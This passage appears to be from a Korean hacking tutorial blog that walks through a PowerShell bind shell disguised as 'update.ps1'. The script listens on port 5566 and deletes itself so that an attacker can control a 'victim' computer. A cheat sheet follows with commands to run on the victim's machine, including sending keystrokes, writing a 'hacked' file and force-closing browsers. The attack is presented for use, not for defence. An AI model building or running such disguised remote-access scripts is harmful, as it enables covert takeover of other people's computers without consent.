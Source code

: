 ```js
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
  }
  $client.Close();
  if ($listener) {
    $listener.Stop();
  }
}

# 연결 대기
$listener = [System.Net.Sockets.TcpListener] 5566;
$listener.start();

# 여기서 update.ps1 제거!
rm update.ps1;

$client = $listener.AcceptTcpClient();

# 함수 호출
windowsUpdate;
```

요약하면, 이 프로그램은 접속한 사람이 사용할 수 있는 포트 5566에서 bind shell을 구축하는 기능을 만들었습니다. 프로그램은 들어오는 연결을 기다리면서 update.ps1 파일을 삭제합니다. 이 시점에서 저는 bind shell 함수에 연결하여 피해자의 컴퓨터를 제어하기 시작합니다. PowerShell 스크립팅이 이렇게 간단한 것이죠?

<div class="content-ad"></div>

# 데모 타임

여기 데모에 대한 몇 가지 흥미로운 비디오가 있어요:

- 피해자에게 셸 코드 삽입하고 IP 주소 추출하기
- IP 주소 송부 및 피해자 컴퓨터 제어하기

<div class="content-ad"></div>

우리의 알지 못하는 희생자들에게 소식을 전하는 여러 가지 방법이 있습니다. 여러분이 할 수 있는 일들에 대한 치트 시트입니다:

```js
// 피해자의 컴퓨터로 키 입력 보내기
$wshell = New-Object -ComObject wscript.shell;
$wshell.sendKeys(" ");
$wshell.sendKeys("Hahaha");

// 파일에 쓰기
echo You have been hacked! > hacked.txt

// 메모장으로 파일 열기
notepad hacked.txt


// 브라우저 닫기
taskkill /IM firefox.exe /F
taskkill /IM chrome.exe /F

// Firefox를 위한 URL을 열기
cd "C:\Program Files\Mozilla Firefox"
firefox.exe https://www.google.com/

// Chrome을 위한 URL을 열기
cd "경로\Chrome"
chrome.exe https://www.google.com/
```
